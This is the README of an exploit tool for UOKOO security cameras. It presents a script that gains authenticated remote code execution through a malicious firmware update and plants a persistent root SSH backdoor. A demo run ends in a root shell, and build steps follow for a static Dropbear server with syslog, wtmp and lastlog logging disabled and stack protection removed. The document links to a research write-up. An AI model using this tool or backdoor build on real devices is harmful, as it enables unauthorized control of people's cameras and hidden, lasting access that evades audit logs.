


# UOKOO Exploit

A script to achieve post-authenticated remote code execution and persistence on UOKOO security cameras. To learn more, visit the full write-up [here](https://hex.fish/2020/11/17/post-auth-rce-and-persistence-on-uokoo-security-cameras/).

## Demo

```text
$ python uokoo_exploit.py <target_ip_address>
[+] Successfully authenticated
[+] Sent update header
[+] Update payload sent! The device should reboot in a few seconds...
$ ssh -i ./public_key root@<target_ip_address> -p 12345


BusyBox v1.21.0 (2016-10-11 14:05:01 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

[root@GM]# whoami
root
```

## Supported Devices






## Building Dropbear

If you want to compile Dropbear yourself—instead of trusting a stranger's precompiled binary—I get it. Here's how to reproduce the build.

```bash
# Download the pre-built uClibc cross-compiler, then add the binaries to your path
curl -O https://uclibc.org/downloads/binaries/0.9.30/cross-compiler-armv5l.tar.bz2
tar xf cross-compiler-armv5l.tar.bz2
export PATH=/home/cross-compiler-armv5l/bin/:$PATH

# Download Dropbear
curl -O https://mirror.dropbear.nl/mirror/releases/dropbear-2018.76.tar.bz2
tar xf dropbear-2018.76.tar.bz2
cd dropbear-2018.76

# Dropbear uses the root user's home directory specified in /etc/passwd, which points to /root. This
# directory doesn't exist on the UOKOO devices, so we have to make a slight change to line 596 of
# common-session.c as a quick fix.
#
# Before
#
# ```
# ses.authstate.pw_dir = m_strdup(pw->pw_dir);
# ```
#
# After
#
# ```
# ses.authstate.pw_dir = "/";
# ```

# Configure and build Dropbear
./configure CC=armv5l-gcc LD=armv5l-ld --host=armv5l --disable-zlib --disable-syslog --disable-wtmp --disable-lastlog --enable-static
# The downloaded uClibc is too old for stack protections so we have to remove them from the Makefile.
sed -i 's/\-fstack\-protector//g' Makefile
make PROGRAMS="dropbear"
```

